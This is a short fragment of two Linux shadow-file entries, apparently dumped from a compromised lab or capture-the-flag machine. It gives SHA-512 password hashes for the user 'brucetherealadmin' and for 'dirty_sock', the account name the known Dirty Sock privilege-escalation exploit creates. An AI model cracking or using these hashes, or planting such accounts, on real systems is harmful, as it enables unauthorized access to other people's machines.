brucetherealadmin:$6$zuzXrozM$owg1fTqFLp1pv7E6rQ.YFmVaQ7Ux5UL5c6IeGNxmYys2ClAkyULCmMUbFw6kTh8Al0nAUg1/TlDteRkjSxkp10:18599:0:99999:7:::
dirty_sock:$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.:18806:0:99999:7:::
```